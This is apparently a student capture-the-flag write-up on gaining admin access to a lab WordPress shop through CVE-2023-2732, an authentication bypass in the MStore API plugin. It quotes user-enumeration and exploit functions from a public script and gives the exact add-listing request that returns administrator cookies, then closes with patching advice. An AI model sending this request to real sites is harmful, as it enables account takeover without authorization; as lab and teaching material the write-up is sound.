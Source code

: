 # CTF Week #3 (Wordpress CVE)

## Recognition

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.

<p align="center" justify="center">
  <img src="./assets/ctf3/plugins.png"/>
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html). The search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  <img src="./assets/ctf3/CVEs.png"/>
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

Since we needed to submit the vulnerability code as the first CTF flag, we got the confirmation that the vulnerability was indeed `CVE-2023-2732`.

## Finding an Exploit

While searching for exploits, we discovered a GitHub repository containing an exploit for `CVE-2023-2732`, available [here](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we analyzed the source code and identified two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API. 

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We accessed http://143.47.40.175:5001/wp-json/wp/v2/users and retrieved the list of users as a JSON response:
<p align="center" justify="center">
  <img src="./assets/ctf3/admin_id.png"/>
</p>

2. From the response, we identified that the Administrator's user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1. When trying to access this URL, the browser will start to load for a long time and, analyzing the requests, we can see that the same GET request to the URL is being executed in a loop, ending in a message saying "The page isn’t redirecting properly". However, the response to these requests come with cookies  with the admin login information, effectively granting administrative permissions to our session.
4. We searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point. Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the second CTF flag.

## Vulnerability Remediation

This vulnerability is caused by the MStore API plugin for WordPress not performing sufficient verification on the user being supplied during the add listing REST API request, for versions up to, and including, 3.9.2, as stated in [Wordfence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/mstore-api/mstore-api-392-authentication-bypass). For this reason, the solution is to update the plugin to version 3.9.3, or a newer patched version.